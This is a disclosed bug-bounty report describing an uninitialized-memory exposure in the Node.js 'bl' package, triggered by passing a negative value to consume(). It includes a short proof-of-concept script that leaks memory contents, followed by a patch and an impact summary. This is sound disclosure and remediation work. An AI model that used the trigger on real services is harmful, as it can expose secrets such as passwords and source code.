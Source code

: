 # [bl] Uninitialized memory exposure via negative .consume()

## Report Details
- **Report ID**: 966347
- **URL**: https://hackerone.com/reports/966347
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-08-24T22:04:17.543Z
- **Disclosed**: 2020-08-27T15:16:42.547Z

## Reporter
- **Username**: chalker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
# Module

**module name:** bl
**version:** 4.0.2
**npm page:** `https://www.npmjs.com/package/bl`

## Module Description

> A Node.js Buffer list collector, reader and streamer thingy.

## Module Stats

8 660 595 weekly downloads

# Vulnerability

## Vulnerability Description

If user input (even typed) ends up in `consume()` argument and can become negative,
BufferList state can be corrupted, tricking it into exposing uninitialized memory via
regular `.slice()` calls.

## Steps To Reproduce:

```
const { BufferList } = require('bl')
const secret = require('crypto').randomBytes(256)
for (let i = 0; i < 1e6; i++) {
  const clone = Buffer.from(secret)
  const bl = new BufferList()
  bl.append(Buffer.from('a'))
  bl.consume(-1024)
  const buf = bl.slice(1)
  if (buf.indexOf(clone) !== -1) {
    console.error(`Match (at ${i})`, buf)
  }
}
```

## Patch

### First component (more important):

In `BufferList.prototype.copy`, before the last `return dst`:
```js
  if (dst.length !== bufoff) return dst.slice(0, bufoff)
```

### Second component:

Check `.consume()` argument to be a non-negative integer.

## Supporting Material/References:

- Node.js v14.8.0

# Wrap up

- I contacted the maintainer to let them know: Y
- I opened an issue in the related repository: N

## Impact

In case if the argument of `consume()` is attacker controlled:
1. Expose uninitialized memory, containing source code, passwords, network traffic, etc.
2. Cause invalid data in slices (low control)
3. Cause DoS by allocating a large buffer this way (with a large negative number before a slice/toString call is performed).

## Attachments
No attachments
